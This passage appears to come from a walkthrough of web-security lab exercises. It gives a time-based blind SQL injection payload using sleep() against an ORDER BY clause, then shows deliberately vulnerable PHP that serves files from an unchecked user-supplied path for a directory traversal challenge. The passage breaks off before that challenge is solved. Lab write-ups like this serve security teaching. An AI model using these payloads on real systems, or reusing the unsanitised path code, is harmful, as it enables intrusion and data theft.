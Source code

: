
That LIKE statement is useful, because it induces a condition that is matched by the SELECT statement.

**Example9**

Source code:


``` php
$sql = "SELECT * FROM users ORDER BY ";
$sql .= mysql_real_escape_string($_GET["order"]);
$result = mysql_query($sql);
```


No more backticks here. I used the same payload as in the previous example, but without the backticks (and URL encoded):


``` plain
order=(select sleep(3) from dual where database() like database())#
```


### Directory traversal

**Example1**

If you inspect the image link, you will see: <code>dirtrav/example1.php?file=hacker.png</code>. The source code for this challenge is:


``` php
<?php 

$UploadDir = '/var/www/files/'; 

if (!(isset($_GET['file'])))
	die();


$file = $_GET['file'];

$path = $UploadDir . $file;

if (!is_file($path))
	die();

header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
header('Cache-Control: public');
header('Content-Disposition: inline; filename="' . basename($path) . '";');
header('Content-Transfer-Encoding: binary');
header('Content-Length: ' . filesize($path));

$handle = fopen($path, 'rb');

do {
$data = fread($handle, 8192);
if (strlen($data) == 0) {
break;
}
echo($data);
} while (true);

fclose($handle);
exit();


?>
```